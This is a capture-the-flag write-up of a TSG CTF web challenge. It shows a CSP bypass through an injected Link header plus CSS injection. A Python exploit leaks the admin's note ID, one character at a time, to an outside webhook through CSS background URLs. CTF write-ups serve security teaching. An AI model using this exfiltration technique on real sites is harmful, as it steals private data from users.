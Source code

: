 My detailed writeup in Japanese is [here](https://blog.arkark.dev/2021/10/06/tsgctf/).

## Solution

- We can embed one HTTP header in any response from the service.
- CSP: `Content-Security-Policy: script-src 'self'; style-src 'self'; base-uri 'none'`

We can attack with CSS Injection and CSP Bypass using Link header as follows:

1. Create the following note:
    ```css
    {} * { background: black; }
    ```
2. Access to the following URL:
    ```javascript
    location = "http://34.84.69.72:8080/?k=Link&v=" + encodeURIComponent("<http://34.84.69.72:8080/notes/zibXjydLKQ?k=Content-Type&v=" + encodeURIComponent("text/css; charset=utf-8") + ">; rel=\"stylesheet\"")
    ```

Then, a browser imports the above CSS and displays the background in black. This attack only works in Firefox.

I wrote an exploit code:

```python
import httpx
from urllib.parse import quote

# base_url = "http://localhost:8080"
base_url = "http://34.84.69.72:8080"
base_ssrf_url = "http://app:8080"

hook_url = "https://webhook.site/xxx-xxx-xxx-xxx-xxx"

chars = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"

suffix = "R1cmOAtdG"
n = 1


def f(n: int):
    note_description = "{}\n"

    def rec(d: int, s: str) -> list[str]:
        if d == n:
            return [s]
        else:
            return sum([rec(d+1, s+c) for c in chars], [])

    for c in rec(0, ""):
        note_description += "li a[href$={{value}}] { background: url({{hook_url}}/{{value}}) }\n".replace("{{value}}", c + suffix).replace("{{hook_url}}", hook_url)

    res = httpx.post(
        base_url + "/notes",
        data={
            "title": "xxx",
            "description": note_description,
        },
        allow_redirects=False,
    )
    assert res.status_code == 302

    note_url = base_ssrf_url + res.headers["Location"]
    print(note_url)
    exploit_path = "/?k=Link&v=" + quote("<" + note_url + "?k=Content-Type&v=" + quote("text/css; charset=utf-8") + ">; rel=\"stylesheet\"")

    res = httpx.post(
        base_url + "/tell",
        data={
            "path": exploit_path,
        },
        allow_redirects=False,
    )
    assert res.status_code == 302


f(n)
```

I stole the ID of the admin's note by running this program several times.

The ID was `4R1cmOAtdG`. A flag was in `http://34.84.69.72:8080/notes/4R1cmOAtdG`.

## Flag

```
TSGCTF{uo_uo_uo_uo_uoooooooo_uo_no_gawa_love}
```
